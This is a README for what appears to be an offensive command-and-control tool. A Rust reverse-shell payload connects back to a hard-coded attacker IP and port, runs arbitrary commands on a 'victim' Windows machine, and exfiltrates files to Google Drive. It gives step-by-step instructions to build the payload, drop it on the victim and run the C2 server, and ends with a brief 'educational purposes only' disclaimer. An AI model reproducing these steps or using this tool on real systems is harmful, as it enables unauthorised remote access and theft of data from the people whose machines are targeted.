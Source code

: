 # Google Drive Command and Control (C2) System

This project provides a Command and Control (C2) system using the Google Drive API and a reverse shell payload written in Rust. The system allows uploading and downloading files to/from Google Drive from a victim's machine and executing commands on the target machine via a C2 server.

# Features
- Reverse shell payload written in Rust
- Upload and download files from the victim's machine to Google Drive
- Command execution on the victim's machine through a TCP connection
- Works with a Google Service Account for authentication
# Prerequisites
Google Service Account: You need to create a Google Cloud project, enable the Google Drive API, and download the Service Account credentials (JSON).
Rust Toolchain: Ensure you have Rust installed. If not, install it from Rust's official site.
How to Use
1. Setup
Add the Google Service Account JSON file to the src/ directory of the Rust project (used in main.rs).
Update main.rs with your Google Drive folder ID.
2. Compiling the Rust Payload
Before compiling, on src/main.rs in payload folder, change this:
- folder ID on ``` const FOLDER_ID: &str = "INPUT YOUR GGDRIVE ID"; ```
- drop your json file in /src and put your json name in ```let service_account_json = include_str!("yourjsonfilename.json");```
- your attacker's machine ip + port number at ```let mut stream = TcpStream::connect("192.168.247.131:4444").expect("Failed to connect");```
To compile the Rust payload, follow these steps:
```
# Build for a Windows target
cargo build --target x86_64-pc-windows-gnu --release
```
This will generate an .exe file in the target/x86_64-pc-windows-gnu/release folder.

3. Running the C2 Server
On your attacker machine (C2 server), you will run the following Python script to listen for incoming connections and send commands:
```
python3 C2_DriveAPI.py
```
4. Reverse Shell on Victim's Machine
After compiling, transfer the compiled .exe payload to the victim's machine and execute it.

5. Available Commands
- Execute commands: Any system command can be executed as follows:
```
<command>
```
For example:
```
dir
```
- Upload a file to Google Drive:
```
upload;<file_path>
```
For example:
```
upload;C:\Users\Administrator\Documents\example.txt
```
Download a file from Google Drive:
```
download;<file_id>;<local_file_path>
```
For example:
```
download;1vjkwFQJXMpVps5Zd2yD54syoXMEw98Fb;C:\Users\Administrator\Downloads\test.png
```
6. Example C2 Usage
Start the C2 server: Run the c2-server.py script on your attacker machine.
Run the payload: Drop and execute the compiled payload on the victim's machine.
Command execution: After the reverse shell is established, issue commands such as file upload, download, or OS command execution.
Dependencies
The Rust project uses the following dependencies:
- yup-oauth2
- reqwest
- tokio
- serde
- serde_json
- mime

Make sure to install these by running:
```
cargo build
```
# License
This project is licensed under the Apache License 2.0. See the [LICENSE](https://github.com/apache/.github/blob/main/LICENSE) for details.

# Disclaimer
This project is intended for educational purposes only. The author is not responsible for any misuse of this software. Use this project only on machines you have explicit permission to test.
